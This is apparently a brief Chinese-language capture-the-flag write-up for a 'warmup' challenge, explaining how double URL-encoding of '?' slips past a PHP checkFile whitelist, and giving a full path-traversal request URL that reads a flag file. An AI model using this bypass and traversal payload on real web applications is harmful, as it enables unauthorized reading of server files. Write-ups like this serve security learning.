 


# warmup

* checkFile函数会解析?之前的字符串是否在白名单内

* urlencode 加密? 两次：url解密一次、checkFile函数解密一次

> http://220.249.52.133:36510/source.php?file=source.php%253f../../../../../ffffllllaaaagggg

